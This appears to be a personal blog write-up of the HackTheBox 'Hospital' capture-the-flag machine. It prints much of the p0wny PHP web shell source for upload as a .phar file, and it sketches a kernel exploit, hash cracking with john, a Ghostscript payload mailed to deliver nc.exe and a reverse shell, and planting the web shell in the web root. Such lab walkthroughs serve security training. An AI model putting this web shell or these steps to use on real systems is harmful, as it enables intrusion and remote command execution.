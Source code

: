 ```yaml
---
layout: post
title: "Hospital-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/box-hospital.png
---
```


# Hospital

HackTheBox: Medium

<aside>
💡 Monitored is a windows machine

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_1.png' | relative_url }})

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_2.png' | relative_url }})

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_3.png' | relative_url }})

We can see 2 http services, go forward the one which allows create an account

> Testing some allowed extensions, we realise .phar extensions.
There is a  tool called ponyshell, downloaded and change its extensions
> 

```bash
<?php

$SHELL_CONFIG = array(
    'username' => 'p0wny',
    'hostname' => 'shell',
);

function expandPath($path) {
    if (preg_match("#^(~[a-zA-Z0-9_.-]*)(/.*)?$#", $path, $match)) {
        exec("echo $match[1]", $stdout);
        return $stdout[0] . $match[2];
    }
    return $path;
}

function allFunctionExist($list = array()) {
    foreach ($list as $entry) {
        if (!function_exists($entry)) {
            return false;
        }
    }
    return true;
}

function executeCommand($cmd) {
    $output = '';
    if (function_exists('exec')) {
        exec($cmd, $output);
        $output = implode("\n", $output);
    } else if (function_exists('shell_exec')) {
        $output = shell_exec($cmd);
    } else if (allFunctionExist(array('system', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('passthru', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('popen', 'feof', 'fread', 'pclose'))) {
        $handle = popen($cmd, 'r');
        while (!feof($handle)) {
            $output .= fread($handle, 4096);
        }
        pclose($handle);
    } else if (allFunctionExist(array('proc_open', 'stream_get_contents', 'proc_close'))) {
        $handle = proc_open($cmd, array(0 => array('pipe', 'r'), 1 => array('pipe', 'w')), $pipes);
        $output = stream_get_contents($pipes[1]);
        proc_close($handle);
    }
    return $output;
}

function isRunningWindows() {
    return stripos(PHP_OS, "WIN") === 0;
}
```

We can search with gobuster to search routes 

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_4.png' | relative_url }})

## 2: User flag

We can use a rev shell and generate estability

Using uname -a we can see there is a vulnerable kernel version, download the exploit 

- We are root at data → cat /etc/passwd

```bash
john hash.txt rockyou.txt
```

We’ve got creds in the 443 port interface, there we find a Gohostscript vulnerability

Clone the repository and create the payload to injected 

1. We send a payload with nc.exe request by email

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_5.png' | relative_url }})

1. Once it is on the victim machine we sent another payload with the rev shell

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_6.png' | relative_url }})

## 3: Priv esc

Start this part where you spawn, theres is a file called ghostscrip.bat lets type it

> We found some rcpclient creds
> 

### rcpclient

It has functions of authentication and enumeration of services, getting information about users

```bash
rcpclient -u "user" url 
querydispinfo
```

We realise that guest user has admin permises so lets go to C:\xampp\htdocs and user ponyshell again wiht a .php ext

Machine pwned./!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>

